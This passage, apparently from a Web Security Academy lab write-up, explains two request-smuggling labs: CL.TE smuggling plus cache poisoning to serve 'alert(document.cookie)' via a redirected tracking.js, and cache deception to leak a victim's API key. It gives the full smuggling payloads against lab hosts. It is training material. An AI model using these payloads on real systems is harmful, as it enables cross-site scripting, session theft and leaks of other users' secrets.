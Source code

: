 ```
Transfer-Encoding: chunked

0


POST /post/comment HTTP/1.1
Cookie: session=eG29Rg0SwO9RBhHq3WsYoxEoS8STFsLD
Content-Type: application/x-www-form-urlencoded
Content-Length: 700

csrf=XEQZpVVkUYbZIQKleJudPB4iTmE1NAY8&postId=6&name=fda&email=sa%40asd.as&website=&comment=
```
5. This lab combines a CL.TE vulnerability with a cache poisoning attack in order to make the effects of a request smuggling attack more permanent than only affecting the next request. To exploit this, first the exploit server must be set to return the contents `alert(document.cookie)` at the endpoint `/post` as this is the open redirect that we can create via a smuggled `Host` header. At this point, we can smuggle a request with the following payload:
```
POST / HTTP/1.1
Host: ac9b1f691e5d87a6c05b5f8e00d00045.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-ac7a1f961e118799c0955f1801af00f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
This payload will cause the next request to redirect to our exploit server's `/post` endpoint. To poison the cache, we can simply navigate to `/resources/js/tracking.js`, where the smuggled response will be cached, causing XSS on a normal page load due to the arbitrary redirection of `tracking.js`
6. This lab is the opposite of the above, where we will utilize a request smuggling vulnerability to make the victim place sensitive data into a location that gets cached so we can access it. To do this, we first must perform a CL.TE attack using the following payload to smuggle a request to the `/my-account` endpoint:
```
POST / HTTP/1.1
Host: aca81f5a1e8b1958c0b9065600ee0042.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```
At this point, we wait for the victim to make some request before we make a request to the home page in an incognito window (in order to prevent our session from being used, creating a false positive). We can scan all of the static resources to find the string `API Key` in order to find which request was poisoned and extract the victim's leaked API key
